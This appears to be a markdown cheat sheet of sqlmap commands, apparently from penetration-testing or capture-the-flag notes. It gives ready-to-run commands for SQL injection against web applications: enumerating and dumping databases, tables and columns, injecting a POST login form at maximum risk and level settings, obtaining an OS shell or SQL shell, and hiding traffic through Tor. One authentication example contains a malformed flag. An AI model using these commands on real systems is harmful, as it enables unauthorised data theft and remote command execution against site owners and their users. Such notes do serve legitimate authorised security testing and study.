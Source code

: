 ### Optional param
```
--batch # Use default config, make the injection process run automatically, without user input.
--threads 5 
-r # uses the intercepted request you saved earlier like burp save the item
```

### Run Save item from Burp
```
sqlmap -r save.item
```

### Enumerate databases
```
sqlmap --dbms=mysql -u "$URL" --dbs # optional param --forms
```

### Enumerate tables
```
sqlmap --dbms=mysql -u "$URL" -D "$DATABASE" --tables
```

### Dump table
```
sqlmap --dbms=mysql -u "$URL" -D "$DATABASE" -T "$TABLE" --dump
```

### Dump column
```
sqlmap --dbms=mysql -u "$URL" -D "$DATABASE" -T "$TABLE" -C "$COLUMN" --dump
```

### List columns
```
sqlmap --dbms=mysql -u "$URL" -D "$DATABASE" -T "$TABLE" --columns
```

### Specify parameter to exploit
```
sqlmap --dbms=mysql -u "http://www.example.com/param1=value1&param2=value2" --dbs -p param2
```

### Specify parameter to exploit in URIs
```
sqlmap --dbms=mysql -u "http://example.domain/param1/value1*/param2/value2" --dbs # exploits param1
```

### Specify URIs
```
sqlmap -u "http://example.domain/" --data='param1=blah&param2=blah' --cookie='JSESSIONID=d02084cbe50e16aa4' --level=5 --risk=3 -p param1
```

### POST
```
sqlmap -u http://10.10.10.73/login.php --dbms=MySQL --method=POST --data="username=x&password=y" --random-agent --risk=3 --level=5 -p username --text-only --string "Wrong identification : admin"
```
`--text-only` is optional

### Get OS shell
```
sqlmap --dbms=mysql -u "$URL" --os-shell
```

### Get SQL shell
```
sqlmap --dbms=mysql -u "$URL" --sql-shell
```

### SQL query
```
sqlmap --dbms=mysql -u "$URL" -D "$DATABASE" --sql-query "SELECT * FROM $TABLE;"
```

### Use Tor Socks5 proxy
```
sqlmap --tor --tor-type=SOCKS5 --check-tor --dbms=mysql -u "$URL" --dbs
```

### Basic authen & NTLM
```
sqlmap -u "http://example.domain/" -s-data=param1=value1&param2=value2 -p param1 --auth-type=[basic/ntlm] --auth-cred=username:password
```

### Proxy
```
sqlmap -u "http://example.domain/" --proxy=http://proxy_address:port
```

### Second order sqli middleware: HTB validation
https://youtu.be/UqoVQ4dbYaI?t=1514